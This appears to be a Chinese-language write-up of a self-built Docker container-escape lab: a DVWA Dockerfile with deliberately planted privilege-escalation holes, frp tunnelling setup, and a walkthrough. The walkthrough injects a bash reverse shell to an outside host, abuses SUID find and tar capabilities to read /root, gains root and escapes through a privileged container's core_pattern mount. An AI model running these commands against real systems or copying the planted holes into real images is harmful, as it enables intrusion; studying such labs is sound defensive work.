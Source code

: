 ```yaml
---
categories: [Docker]
tags: [容器逃逸] [靶场]
---
```


# 2023.08.28

## 0x01 环境搭建

使用到的机器：sec-container2（IP：10.255.200.87）、阿里云 vps（8.130.104.104）、本地 kali 虚拟机（10.211.55.4）

### Dockerfile 如下：

```bash
# 基于基础镜像centos-lamp进行自定义
FROM dockerfiles/centos-lamp
# 将工作目录设置为/var/www/html 接下来的操作都在这个目录下进行
WORKDIR /var/www/html
# 使用wget下载文件 然后解压到当前工作目录 --strip-components=1表示解压时去掉一个顶层目录
RUN wget https://github.com/RandomStorm/DVWA/archive/v1.0.8.tar.gz -O- | tar xvz --strip-components=1
# 启动mysql服务 使用mysqladmin命令将root用户的密码改为p@ssw0rd 停止mysql服务
RUN service mysqld start && mysqladmin -uroot password p@ssw0rd && service mysqld stop
# 容器将监听并暴露在主机上的80端口，以便通过主机的80端口访问容器中的web服务
EXPOSE 80
USER root
# 更换镜像源（需提前将Centos-vault-6.10.repo从https://mirrors.aliyun.com/repo/Centos-vault-6.10.repo目录下载到本地）
COPY ./Centos-vault-6.10.repo /home
COPY ./here_u_r.txt /root
COPY ./open_me.txt /home
WORKDIR /home
RUN rm -rf /etc/yum.repos.d/*
RUN cp -r ./Centos-vault-6.10.repo /etc/yum.repos.d/CentOS-Base.repo
RUN yum clean all
RUN yum makecache
WORKDIR /var/www/html
# 安装sudo
RUN rpm --rebuilddb && yum install -y sudo && yum install -y gcc
# 给用户apache设置密码
RUN echo 'apache:%Kin,qnEfJQ]r;YY' | chpasswd
# 给find指令设置suid权限+除root用户外其他用户不能执行getcap指令+给tar指令设置cap_dac_read_search capability
RUN chmod u+s $(which find) && \
    chmod 700 $(which getcap) && \
    setcap 'cap_dac_read_search=ep' $(which tar)
# apache用户可以使用sudo passwd修改密码
RUN echo 'apache ALL=(ALL) /usr/bin/passwd' > /etc/sudoers.d/apache-password
CMD ["supervisord", "-n"]
```

~~注：由于本地的虚拟机可以找到内网的 sec-container2 机器，但是内网机器无法找到 kali 虚拟机，因此需要在 vps 与 kali 之间进行端口映射。~~

注：可以直接在内网机器和 vps 之间进行端口映射。内网机器为客户端，vps 为服务端。配置好之后可以直接利用公网 ip+相应端口访问相应的服务。

### 使用 frp 配置端口映射：

frp：内网穿透和反向代理软件，支持 tcp，udp，http，https 等协议

#### 工作原理：

- 服务端运行，监听一个主端口，等待客户端的连接；
- 客户端连接到服务端的主端口，同时告诉服务端要监听的端口和转发类型；
- 服务端 fork 新的进程监听客户端指定的端口；
- 外网用户连接到客户端指定的端口，服务端通过和客户端的连接将数据转发到客户端；
- 客户端进程再将数据转发到本地服务，从而实现内网对外暴露服务的能力。
-

#### 具体流程：

可参考[frp](https://www.cnblogs.com/henry666/p/13966992.html)

<font color="#808080">注：需要给 vps 相应端口添加安全组入方向访问规则。</font>

<u>根据靶场的设计思路，需要设置两个端口映射（3333<---->5555；4444<---->6666</u>

```bash
# 阿里云vps:frp服务端
[common]
bind_port = 7000

dashboard_port = 7777

dashboard_user = admin

dashboard_pwd = admin

# 启动服务端服务
./frps -c ./frps.ini
```

```bash
# kali虚拟机：frp客户端
[common]
server_addr = 8.130.104.104
server_port = 7000

[forward1]
type = tcp
local_ip = 127.0.0.1
local_port = 4444
remote_port = 6666

[forward2]
type = tcp
local_ip = 127.0.0.1
local_port = 3333
remote_port = 5555

#启动客户端服务
./frpc -c ./frpc.ini
```

---

### 宿主机启动容器

```bash
# 使用Dockerfile创建自定义的镜像
docker build -t dvwa .
# 以守护进程模式后台+特权模式启动容器，映射80端口，挂载宿主机procfs
docker run --privileged -d -p 80 -v /proc/sys/kernel/core_pattern:/host/proc/sys/kernel/core_pattern dvwa
```

![image2023-8-28_14-13-16.png](https://s2.loli.net/2023/10/08/fy2xhaDXSk9PMRJ.png)

### kali 端：

1. 打开浏览器，使用**ip 地址+相应端口（10.255.200.87:32774）**在浏览器中访问 dvwa 服务（初始化步骤省略）
2. 任意利用其中某个漏洞，进行反弹 shell（此处使用命令注入漏洞）
   1. 在终端窗口中开启 nc 监听（nc -nlvp 4444）
   2. 命令注入输入框输入<code>;bash -i >& /dev/tcp/8.130.104.104/6666 0>&1</code>获取 shell
      ![image2023-8-28_14-18-56.png](https://s2.loli.net/2023/10/08/pf4ighKaJSQ6bNx.png)
3. **/home**目录下存在一个 txt 文件
   ![image2023-8-28_14-27-43.png](https://s2.loli.net/2023/10/08/r2OiWwlYBZTzaXM.png)
4. 使用 find 指令查找具有 suid 权限的指令 <code>find / -perm -u=s -type f 2>/dev/null</code>
   1. ![image2023-8-28_14-22-11.png](https://s2.loli.net/2023/10/08/nHzxh6u4TrALEp7.png)
   2. 在/tmp 目录下新建一个文件，利用 find 指令的-exec 选项执行指令 <code>find 1 -exec getcap -r / 2>/dev/null \;</code>
   3. ![image2023-8-28_14-26-0.png](https://s2.loli.net/2023/10/08/YieAUL9nQCcS1hr.png)
5. 使用 tar 指令将/root 目录压缩至/tmp 目录，解压查看目录下文件
   1. ![image2023-8-28_14-29-34.png](https://s2.loli.net/2023/10/08/lnUNtTX3xYmrujo.png)
   2. ![image2023-8-28_14-29-34.png](https://s2.loli.net/2023/10/08/lnUNtTX3xYmrujo.png)
   3. brainfuck->base64-><code>,%Kin,qnEfJQ]r;YY</code>
6. 将当前 shell 切换为完整 tty，成功后输入该字符串，修改密码
   ![image2023-8-28_14-35-1.png](https://s2.loli.net/2023/10/08/wulVSzNyC5jKMOm.png)
7. 尝试使用 su 指令登录 root 用户
   ![image2023-8-28_14-36-47.png](https://s2.loli.net/2023/10/08/wuIUpbSvLeNjG9m.png)
8. 参考[Docker 容器逃逸](https://wuheuu.github.io/docker/Docker容器逃逸/)中 3.2 部分进行利用，.x.py 文件中 ip 地址设置为 8.130.104.104，端口设置为 5555。kali 开启 3333 端口监听，在之前的 shell 中执行 x 文件，制造崩溃，拿到 shell。
   ![image2023-8-28_14-42-23.png](https://s2.loli.net/2023/10/08/VW26reyTMJnSBEu.png)
9. 将 shell 切换为完整 tty，使用<code>export PATH=$PATH:/usr/sbin</code>添加/usr/sbin 环境变量，执行 ifconfig 指令。
   1. 逃逸出来
      ![image2023-8-28_14-44-9.png](https://s2.loli.net/2023/10/08/zqHA1XBkrMogLCG.png)
   2. 与容器内 ifconfig 返回结果进行对比
      ![image2023-8-28_14-45-6.png](https://s2.loli.net/2023/10/08/Pby8VjXiBsmSHwo.png)

---

## 附录：

- 正向 shell 与反向 shell（bind shell & reverse shell）**具体可看参考资料(3)**
  - 正向 shell：攻击者可以在靶机上启动一个服务，从而使得攻击者可以连接这个服务并执行一些命令。如果要启动一个 bind shell，攻击者必须有目标机器的 ip 地址。
  - 反向 shell：攻击者需要在攻击端机器上启动一个服务器，靶机作为客户端来连接这个服务器。成功连接后，攻击者可以得到靶机的 shell。要使用反向 shell，攻击者不需要知道目标机器 ip 地址。
- 运行容器时注意需要开启--privileged 选项或者使用--cap-add，否则很多指令将无法执行，即使用户在容器内是 root 身份
- 在反弹的 shell 中有些命令无法执行可能是由于忘记将 shell 切换为完整 tty
- 尝试修改密码时出现 passwd:passwd: system_u:system_r:spc_t:s0 is not authorized to change the password of root，原因是宿主机未关闭 SElinux 强制访问控制，需要关闭后重启宿主机，并使用 getenforce 进行验证。

---

## 参考资料：

1. [frp](https://www.cnblogs.com/henry666/p/13966992.html)
2. [bind shell & reverse shell](https://www.geeksforgeeks.org/difference-between-bind-shell-and-reverse-shell/)
3. [正向 shell 与反向 shell](https://blog.csdn.net/weixin_45936149/article/details/123752352)
